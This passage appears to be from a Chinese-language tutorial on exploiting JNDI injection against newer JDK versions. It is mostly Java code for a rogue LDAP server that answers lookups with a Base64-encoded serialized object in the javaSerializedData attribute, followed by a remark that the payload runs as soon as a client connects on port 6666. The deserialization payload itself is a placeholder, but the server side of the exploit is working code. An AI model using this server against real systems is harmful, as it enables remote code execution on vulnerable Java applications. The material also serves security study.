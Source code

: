 ```java
        config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
        InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
        System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
        ds.startListening();
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws Exception {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }

            e.addAttribute("javaSerializedData", Base64.decode("base64 encode payload"));

            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```

代码的String[]字符串里面ip并不影响payload执行，随便填或者默认localhost都可

**3.启动服务端后，客户端连接6666端口即可执行成功**

![Untitled](JNDI%E6%B3%A8%E5%85%A5%E5%88%A9%E7%94%A8%E7%BB%95%E8%BF%87%E9%AB%98%E7%89%88%E6%9C%ACJDK%E9%99%90%E5%88%B6%203f0efdc038d24037aff71da4a248cd94/Untitled%202.png)